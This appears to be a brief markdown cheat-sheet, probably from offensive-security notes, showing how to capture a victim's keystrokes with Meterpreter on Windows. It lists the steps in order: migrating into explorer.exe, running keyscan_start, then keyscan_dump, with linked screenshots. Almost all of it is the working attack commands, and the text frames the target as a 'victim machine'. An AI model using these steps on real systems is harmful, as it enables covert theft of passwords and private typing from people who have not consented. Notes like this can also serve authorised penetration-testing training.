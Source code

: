 # On meterpreter:

- migrate to explorer.exe (pgrep explorer.exe; migrate pid)
- keyscan_start (after executing this cmd, type in victim machine)
- keyscan_dump
  
  ![meterpreter migrate process](./images/keylogger-01.png)
  ![meterpreter keyscan_start](./images/keylogger-02.png)
  ![meterpreter keyscan_dump](./images/keylogger-03.png)